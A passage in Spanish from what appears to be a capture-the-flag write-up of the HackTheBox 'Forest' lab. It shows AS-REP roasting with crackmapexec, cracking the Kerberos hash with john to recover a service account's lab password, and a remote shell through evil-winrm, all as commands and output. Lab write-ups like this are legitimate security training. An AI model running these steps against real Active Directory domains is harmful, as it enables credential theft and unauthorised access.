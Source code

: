 Para este punto era muy probable de que se tenia que llevar acabo un ataque de `ASREPRoast`.

El ataque **ASREPRoast** se basa en encontrar usuarios que no requieren pre-autenticación de Kerberos. Lo cual significa que cualquiera puede enviar una petición AS_REQ en nombre de uno de esos usuarios y recibir un mensaje AS_REP correcto. Esta respuesta contiene un pedazo del mensaje cifrado con la clave del usuario, que se obtiene de su contraseña. Por lo tanto, este mensaje se puede tratar de crackear offline para obtener las credenciales de dicho usuario.

Para realizar el ataque haré uso de la herramienta de `crackmapexec`.

```console
intrusionz3r0@kali:~$ cme ldap forest.htb -u users.txt -p '' --asreproast AS_REP --kdcHost 10.10.10.161 
LDAP        10.10.10.161    389    FOREST           [*] Windows Server 2016 Standard 14393 x64 (name:FOREST) (domain:htb.local) (signing:True) (SMBv1:True)
LDAP        10.10.10.161    389    FOREST           $krb5asrep$23$svc-alfresco@HTB.LOCAL:31dc290a82f41e7a98c4b5a76d9c2a58$46e3a72060276171c1be5dcba3d966d20e963b0cd0f4fb909b5cecd0b15cde1ca695ec0d6bc942d4b18ed6dfcfc7d71f7df1e65d2d45fe88a688a385cd1a795419dacdafc5942b93e54b8e88f50a24f30e616156facaaec07592f192c3e2d2ca92163998bf5accc39508b08a3737c8192ec3a5d169a6933033466d458a9fe699e6e178d3a77b06f0d116b240a1cf74950eb4b241953f53cd0f98bfad4e2d2faaf2e31c888013c4707e8a8816af313ffe2bdd47c5c005c93a98c3c819c3f10157d1b2b20cb2cd259533dc5e95fa778ac3329ae58e427abdb973eb8b0c0fa008621d7e5d2fda8f
```

Ahora solo lo pasamos a john y obtenemos la contraseña de usuario `svc-alfresco`.

```console
intrusionz3r0@kali:~$ john -w=/usr/share/wordlists/rockyou.txt AS_REP          
Using default input encoding: UTF-8
Loaded 2 password hashes with 2 different salts (krb5asrep, Kerberos 5 AS-REP etype 17/18/23 [MD4 HMAC-MD5 RC4 / PBKDF2 HMAC-SHA1 AES 128/128 SSE2 4x])
Remaining 1 password hash
Will run 2 OpenMP threads
Press 'q' or Ctrl-C to abort, almost any other key for status
s3rvice          ($krb5asrep$23$svc-alfresco@HTB.LOCAL)
1g 0:00:00:20 DONE (2020-09-16 19:37) 0.04882g/s 199500p/s 199500c/s 199500C/s s3xirexi..s3r2s1
Use the "--show" option to display all of the cracked passwords reliably
Session completed
```

**Credenciales:** `svc-alfresco:s3rvice`

# Shell como el usuario svc-alfresco.

Rápidamente utilizo la herramienta `evil-winrm` para entrar a la máquina.

```console
intrusionz3r0@kali:~$ evil-winrm -i forest.htb -u svc-alfresco -p s3rvice

Evil-WinRM shell v2.3

Info: Establishing connection to remote endpoint

*Evil-WinRM* PS C:\Users\svc-alfresco\Documents> whoami
htb\svc-alfresco
*Evil-WinRM* PS C:\Users\svc-alfresco\Documents>
```
